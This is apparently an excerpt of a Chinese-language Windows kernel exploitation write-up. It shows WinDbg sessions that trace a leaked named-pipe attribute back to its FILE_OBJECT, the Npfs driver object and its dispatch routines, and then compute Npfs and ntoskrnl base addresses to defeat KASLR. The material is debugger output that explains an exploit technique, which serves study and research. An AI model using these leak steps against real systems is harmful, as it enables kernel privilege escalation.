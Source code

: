 ```
//查看当前irp
1: kd> !irp ffffbe077eb3dd70
Irp is active with 2 stacks 1 is current (= 0xffffbe077eb3de40)
 No Mdl: System buffer=ffffbe0780f7e620: Thread ffffbe0786ec70c0:  Irp stack trace.  
     cmd  flg cl Device   File     Completion-Context
>[IRP_MJ_FILE_SYSTEM_CONTROL(d), N/A(0)]
//file_object默认第一个ffffbe07933bb320
            4 e0 ffffbe077e6e58f0 ffffbe07933bb320 fffff806277143b0-ffffbe07874d1dc0 Success Error Cancel 
	       \FileSystem\Npfs	FLTMGR!FltpPassThroughCompletion
			Args: 00000100 000001d8 0011003c 00000000
 [IRP_MJ_FILE_SYSTEM_CONTROL(d), N/A(0)]
            4  1 ffffbe077eb95850 ffffbe07933bb320 00000000-00000000    pending
	       \FileSystem\FltMgr
			Args: 00000100 000001d8 0011003c 00000000
1: kd> dt nt!_file_object ffffbe07933bb320
   +0x000 Type             : 0n5
   +0x002 Size             : 0n216
   +0x008 DeviceObject     : 0xffffbe07`7e6e58f0 _DEVICE_OBJECT
   +0x010 Vpb              : (null) 
   +0x018 FsContext        : 0xffffad09`db8d3900 Void
   +0x020 FsContext2       : 0xffffad09`df8c7991 Void
   +0x028 SectionObjectPointer : (null) 
....
kd> ?rcx - 0xffffad09`df8c7990=140 ;也就是ffffad09`df8c7ad0 - 0xffffad09`df8c7990 = 140 = ROOT_PIPE_ATTRIBUTE_OFFSET
Evaluate expression: 320 = 00000000`00000140
1: kd> dq 0xffffad09`df8c7990
ffffad09`df8c7990  00000002`00000204 0000000c`00000003
ffffad09`df8c79a0  00000101`00000002 ffffad09`db8d3a08
ffffad09`df8c79b0  ffffad09`db8d3a08 ffffad09`db8d3900
//0xffffad09`df8c7990+FILE_OBJECT_OFFSET指向file_object:=>ffffbe07`933bb320
ffffad09`df8c79c0  ffffbe07`933bb320 ffffbe07`933ba1f0
ffffad09`df8c79d0  00000000`00000001 ffffbe07`86bdf000
ffffad09`df8c79e0  ffffbe07`86bdf000 00001440`00000001
ffffad09`df8c79f0  00010000`00000001 00000000`00001440
ffffad09`df8c7a00  ffffad09`df8c7a09 00000000`00000000
```
可见 xploit->leak_root_attribute -ROOT_PIPE_ATTRIBUTE_OFFSET+FILE_OBJECT_OFFSET处存放的就是当前file_object指针,顺着这个思路可以得到NpFsdCreate
```
1: kd> dx -id 0,0,ffffbe07872d0080 -r1 ((ntkrnlmp!_DEVICE_OBJECT *)0xffffbe077e6e58f0)
((ntkrnlmp!_DEVICE_OBJECT *)0xffffbe077e6e58f0)                 : 0xffffbe077e6e58f0 : Device for "\FileSystem\Npfs" [Type: _DEVICE_OBJECT *]
    [<Raw View>]     [Type: _DEVICE_OBJECT]
    Flags            : 0x240
    UpperDevices     : Immediately above is Device for "\FileSystem\FltMgr" [at 0xffffbe077eb95850]
    LowerDevices     : None
    Driver           : 0xffffbe077e93fe00 : Driver "\FileSystem\Npfs" [Type: _DRIVER_OBJECT *]
//这里就是驱动对象的主分发函数
1: kd> dqs 0xffffbe077e93fe00+70
ffffbe07`7e93fe70  fffff806`2f2ab540 Npfs!NpFsdCreate
ffffbe07`7e93fe78  fffff806`2f2ab140 Npfs!NpFsdCreateNamedPipe
1: kd> ?Npfs!NpFsdCreate-Npfs
Evaluate expression: 46400 = 00000000`0000b540
1: kd> ?Npfs!_imp_ExAllocatePoolWithTag-Npfs
Evaluate expression: 28752 = 00000000`00007050
1: kd> dqs fffff806`2f2a7050=Npfs!_imp_ExAllocatePoolWithTag
fffff806`2f2a7050  fffff806`299b1030 nt!ExAllocatePoolWithTag
fffff806`2f2a7058  fffff806`299b1010 nt!ExFreePool
1: kd> ?nt!ExAllocatePoolWithTag- nt
Evaluate expression: 10162224 = 00000000`009b1030
```